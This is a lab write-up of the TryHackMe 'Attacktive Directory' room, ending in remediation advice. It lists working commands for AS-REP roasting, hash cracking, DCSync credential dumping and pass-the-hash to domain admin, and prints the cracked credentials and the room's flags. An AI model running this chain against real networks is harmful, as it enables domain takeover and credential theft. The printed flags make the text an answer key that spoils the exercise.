







# Project: Attacktive Directory Penetration Test (TryHackMe)

**Date:** December 2025

**Target:** 10.67.164.45 (spookysec.local)

**Tools Used:** Nmap, enum4linux, Kerbrute, Impacket (GetNPUsers, secretsdump), Hashcat, smbclient, Evil-WinRM

**Vulnerability Explored:** AS-REP Roasting, Weak SMB Permissions, DCSync (Excessive Privileges)

## 1\. Executive Summary

**Objective:** Conduct a black-box penetration test on the target Active Directory environment to identify vulnerabilities, move laterally through the domain, and escalate privileges to Domain Administrator.

**Result:** The assessment identified critical misconfigurations in the Active Directory environment. An **AS-REP Roasting** attack allowed for initial credential theft. Subsequent lateral movement uncovered sensitive files on an **SMB share**, leading to the compromise of a backup service account. This account held excessive privileges, allowing for a **DCSync attack** to dump all domain credentials, resulting in total domain compromise.


## 2\. Technical Findings \& Walkthrough

### Step 1: Reconnaissance \& User Enumeration

**Objective:** Identify the domain controller, domain name, and valid usernames.

**Methodology:**
I started with an **Nmap** scan to identify services. The presence of ports 88 (Kerberos), 389 (LDAP), and 445 (SMB) confirmed it was a Domain Controller. The script scan revealed the domain name: `spookysec.local`.

```bash
nmap -sV 10.67.164.45
```


Next, I used `Kerbrute` to validate usernames against the Domain Controller. This tool uses Kerberos pre-authentication errors to determine if a username exists. I first downloaded the user list provided for this exercise.

```bash
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
kerbrute userenum --dc 10.67.164.45 -d spookysec.local userlist.txt
```


**Findings:** `Kerbrute` identified several valid user accounts, including: `james`, `svc-admin`, `backup`, and `administrator`.

### Step 2: Initial Compromise (AS-REP Roasting)

**Vulnerability:** Kerberos Pre-Authentication Disabled
**Severity:** High

**Methodology:**
I checked the discovered users for the "Do not require Kerberos preauthentication" property. Users with this setting enabled allow an attacker to request a TGT (Ticket Granting Ticket) without knowing the password. The returned ticket is encrypted with the user's password hash, which can be cracked offline.

I used Impacket's `GetNPUsers.py` to attempt this attack on the identified users.

```bash
python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.67.164.45 spookysec.local/svc-admin -no-pass
```


**Result:** The user `svc-admin` was vulnerable. I successfully captured the TGT hash.

**Cracking the Hash:** I saved the hash to a file named `kb.hash` and used `Hashcat` with the room's provided password list to crack it. The mode `18200` corresponds to Kerberos 5, etype 23, AS-REP.

```bash
# The hash from the previous command is saved into 'kb.hash'
# The password list was also downloaded for the room
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
hashcat -m 18200 -a 0 kb.hash passwordlist.txt --force
```



**Cracked Credentials:** `svc-admin` / `management2005`

### Step 3: Lateral Movement \& Looting

**Objective:** Use the compromised credentials to explore the network resources.

**Methodology:**
With the credentials for `svc-admin`, I enumerated available SMB shares using `smbclient`.

```bash
smbclient -L //10.67.164.45 -U svc-admin
```

After finding the `backup` share, I connected to it, specifying the domain for the user:

```bash
smbclient //10.67.164.45/backup -U SPOOKYSEC/svc-admin
```



**Findings:** I gained access to a share named `backup`. Inside, I found a file containing encoded credentials. I downloaded the file: `get backup\_credentials.txt`

**Decoded content:**

```bash
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

**New Credentials:** `backup@spookysec.local` / `backup2517860`

**Flag 1:** `TryHackMe{TELNET_IS_INSECURE}`

**Flag 2:** `TryHackMe{KERBEROS_IS_NOT_INVINICIBLE}`

### Step 4: Privilege Escalation (DCSync)

**Vulnerability:** Excessive Privileges (DCSync)
**Severity:** Critical

**Methodology:**
I investigated the privileges of the newly compromised `backup` user. This account had the "Replicating Directory Changes" permission, allowing it to simulate a Domain Controller and request password hashes from the primary DC (a DCSync attack).

I used Impacket's `secretsdump.py` to execute this attack, entering the password for the `backup` user when prompted.

```bash
python /opt/impacket/examples/secretsdump.py -just-dc backup@10.67.164.45
```


**Result:** I successfully dumped the NTLM hashes for all domain users, including the built-in Administrator.

**Administrator NTLM Hash:** `0e0363213e37b94221497260b0bcb4fc`

### Step 5: Final Access (Pass-the-Hash)

**Objective:** Gain a full shell as Domain Administrator.

**Methodology:**
Instead of cracking the Administrator password, I performed a Pass-the-Hash attack using `Evil-WinRM` to authenticate directly using the NTLM hash.

```bash
evil-winrm -i 10.67.164.45 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```


**Result:** I successfully obtained a PowerShell session as `spookysec\administrator`.

**Flag 3:** `TryHackMe{SMB_IS_VULNERABLE}`

**Final Flag:** `TryHackMe{4DG0D_15_H3R3}`

## 3\. Remediation \& Recommendations

1. **Enforce Kerberos Pre-Authentication (High)**
   The `svc-admin` account allowed Kerberos requests without pre-authentication, enabling offline hash cracking.

   **Action:** Ensure "Do not require Kerberos preauthentication" is unchecked for all user accounts in Active Directory.

2. **Restrict DCSync Privileges (Critical)**
   The `backup` user had permissions designed for Domain Controllers (DS-Replication).

   **Action:** Audit accounts with "Replicating Directory Changes" and "Replicating Directory Changes All" permissions. Remove these rights from non-DC accounts strictly.

3. **Secure SMB Shares (Medium)**
   Sensitive credentials were stored in a base64 encoded text file on a readable SMB share.

   **Action:** Audit SMB share permissions to ensure least privilege. Do not store credentials in plaintext or easily reversible formats on network shares.

   ---

   *Disclaimer: This project was performed on the TryHackMe "Attacktive Directory" room for educational purposes.*

